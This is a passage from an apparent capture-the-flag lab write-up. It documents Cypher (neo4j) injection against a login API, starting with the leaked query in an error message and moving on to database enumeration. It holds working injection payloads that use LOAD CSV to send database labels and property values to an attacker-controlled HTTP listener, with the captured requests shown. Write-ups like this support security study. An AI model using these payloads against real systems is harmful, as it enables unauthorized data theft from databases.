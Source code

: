 In response we get back a 401 Unauthorized status page with json data in its reply which is quite common for api's

```json
{
    "detail":"Invalid credentials"
}
```

To test for an injection flaw I append a single quote ("'") after the username to see if we get an unexpected reply from the server, which we do. We get a long python error with a stacktrace but more importantly we get the actual line of the query printed which helps to identify how the statement is being made.

```
{
message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 59 (offset: 58))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test'' return h.value as hash"
^}
```
My first thought was that the login page would be using a MySQL database but it seems like it is using neo4j's cypher query language. I do no have any prior experience injecting with this language but using online guides I am able to work with it. I found [this](https://notes.incendium.rocks/pentesting-notes/web/injection/cypher-injection) post that details how to get information from the database. 
## Database Enumeration
To list the columns inside of the table the database is using i use the following payload:

```json
{
"username":"' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.9/?'+label AS b RETURN b//",
"password":"test"
}
```

To get the data I set up a listener on port 80 with python and we will get the column names as requests:
```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?USER HTTP/1.1" 200 -
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?HASH HTTP/1.1" 200 -
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?SCAN HTTP/1.1" 200 -
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [10/Jul/2025 13:20:46] "GET /?IP_ADDRESS HTTP/1.1" 200 -
```
We can see a couple of interesting columns. To retrieve the data from one of them we can instead use the following payload:

```json
{
    "username":"' OR 1=1 WITH 1 as a MATCH (f:COLUMN_NAME) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.9/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //",
    "password":"test"
}
```
